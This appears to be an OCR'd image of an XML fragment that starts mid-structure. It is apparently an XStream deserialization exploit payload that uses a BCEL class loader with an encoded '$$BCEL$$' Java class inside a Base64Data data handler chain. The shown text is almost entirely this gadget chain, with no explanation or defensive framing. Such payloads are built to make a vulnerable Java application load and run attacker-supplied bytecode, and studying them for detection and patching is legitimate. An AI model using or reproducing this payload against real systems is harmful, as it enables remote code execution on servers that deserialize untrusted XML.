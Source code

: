 ```xml
                      <string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeQ$ddN$c20$Y$3d$85$c9$60$O$e5G$fcW$f0J0Qn$bc$c3$Y$T$83$89$c9$oF$M$5e$97$d9$60$c9X$c9$d6$R$5e$cb$h5$5e$f8$A$3e$94$f1$x$g$q$b1MwrN$cf$f9$be$b6$fb$fcz$ff$Ap$8a$aa$83$MJ$O$caX$cb$a2bp$dd$c6$86$8dM$86$cc$99$M$a5$3egH$d7$h$3d$G$ebR$3d$K$86UO$86$e2$s$Z$f5Et$cf$fb$B$v$rO$f9$3c$e8$f1H$g$fe$xZ$faI$c6T$c3kOd$d0bp$daS_$8c$b5Talc$8bxW$r$91$_$ae$a41$e7$8c$e9d$c8$t$dc$85$8d$ac$8dm$X$3b$d8$a5$d2j$y$c2$da1$afQ$D$3f$J$b8V$91$8b$3d$ecS$7d$Ta$u$98P3$e0$e1$a0$d9$e9$P$85$af$Z$ca3I$aa$e6ug$de$93$a1$f8g$bcKB$zG$d4$d6$Z$I$3d$t$95z$c3$fb$e7$a1$83$5bb$w$7c$86$c3$fa$c2nWG2$i$b4$W$D$b7$91$f2E$i$b7p$80$rzQ3$YM$ba$NR$c8$R$bb$md$84$xG$af$60oH$95$d2$_$b0$k$9eII$c11$3a$d2$f4$cd$c2$ow$9e$94eb$eeO$820$3fC$d0$$$fd$BZ$85Y$ae$f8$N$93$85$cf$5c$c7$B$A$A</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='com.sun.org.apache.bcel.internal.util.ClassLoader'>
                  <parent class='sun.misc.Launcher$ExtClassLoader'>
                  </parent>
                  <package2certs class='hashtable'/>
                  <classes defined-in='java.lang.ClassLoader'/>
                  <defaultDomain>
                    <classloader class='com.sun.org.apache.bcel.internal.util.ClassLoader' reference='../..'/>
                    <principals/>
                    <hasAllPerm>false</hasAllPerm>
                    <staticPermissions>false</staticPermissions>
                    <key>
                      <outer-class reference='../..'/>
                    </key>
                  </defaultDomain>
                  <packages/>
                  <nativeLibraries/>
                  <assertionLock class='com.sun.org.apache.bcel.internal.util.ClassLoader' reference='..'/>
                  <defaultAssertionStatus>false</defaultAssertionStatus>
                  <classes/>
                  <ignored__packages>
                    <string>java.</string>
                    <string>javax.</string>
                    <string>sun.</string>
                  </ignored__packages>
                  <repository class='com.sun.org.apache.bcel.internal.util.SyntheticRepository'>
                    <__path>
                      <paths/>
                      <class__path>.</class__path>
                    </__path>
                    <__loadedClasses/>
                  </repository>
                  <deferTo class='sun.misc.Launcher$ExtClassLoader' reference='../parent'/>
                </processorCL>
              </iterator>
              <type>KEYS</type>
            </e>
            <in class='java.io.ByteArrayInputStream'>
              <buf></buf>
              <pos>0</pos>
              <mark>0</mark>
              <count>0</count>
            </in>
          </is>
          <consumed>false</consumed>
        </dataSource>
        <transferFlavors/>
      </dataHandler>
      <dataLen>0</dataLen>
    </com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
```